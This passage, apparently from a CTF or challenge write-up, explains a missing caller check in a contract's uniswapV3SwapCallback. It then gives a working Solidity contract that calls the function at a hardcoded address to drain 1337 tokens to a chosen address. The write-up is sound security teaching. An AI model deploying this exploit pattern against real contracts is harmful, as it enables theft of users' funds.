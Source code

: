Here, there were no checks for `msg.sender == owner`, meaning that anyone could call it.

The function took input from the `msg.data`, as well as calling the `msg.sender` for token information, which it then passed to the transferring function.

The name of the function above is `uniswapV3SwapCallback`, which is used by Uniswap V3 pools to request tokens from swappers after the swap has been done.
Some more information about this can be found [here](https://www.degencode.com/p/uniswap-v3-swap-callback).

An example of this function being called on the contract can be seen [here](https://app.blocksec.com/explorer/tx/eth/0xf288d3993b16e86baf5a4dfe3ecc5c3d0d7064a48bd09abc0f330fc2cadf6176?line=37). In this example, the `msg.sender` (in this case, the Uniswap V3 pool of TrumpCoin) gets transferred `amount0Delta` tokens (in wei), because it was the positive value, meaning the pool needed those tokens.

One crucial part of implementing `uniswapV3SwapCallback` correctly, is making sure the caller is a valid Uniswap V3 pool. Here, **the check was missing** (likely for gas savings and/or not expecting ERC20s to ever stay in the address), which meant that **any contract** could call the function, have it get token0/token1 from the calling contract and make off with any tokens in the contract.

This is exactly what my solution did.

## The Solution

An intermediary contract, that would handle calling the One Eyed Man contract:
```solidity
pragma solidity ^0.8.0;

interface OEM {
    function uniswapV3SwapCallback(int256 amount0Delta, int256 amount1Delta, bytes calldata data) external;
}

interface IERC20 {
    function transfer(address, uint256) external;
    function balanceOf(address) external view returns (uint256);
}

contract RecoverTokens {
    address public immutable token0;
    address public immutable player;

    constructor(address _token0, address _player) {
        token0 = _token0;
        player = _player;
    }

    function recoverTokens() external {
        bytes memory zeroByteData = new bytes(33); // following the example transaction, 33 empty bytes
        OEM(0xCf9997FF3178eE54270735fDc00d4A26730787E0).uniswapV3SwapCallback(
            1337 ether, 0, zeroByteData
        );
        IERC20(token0).transfer(player, 1337 ether);
    }
}
```
This contract would be initialized with two fields: `token0`, the token we want to recover and `player`, the address that needs to have the funds.
Upon calling `recoverTokens()`, the contract would call the One Eyed Man contract with the necessary data to have it send us 1337 tokens. This includes 1337 ether, our amount, 0, our `amount1Delta`, which we do not need to use, and a `bytes` with 33 empty bytes.
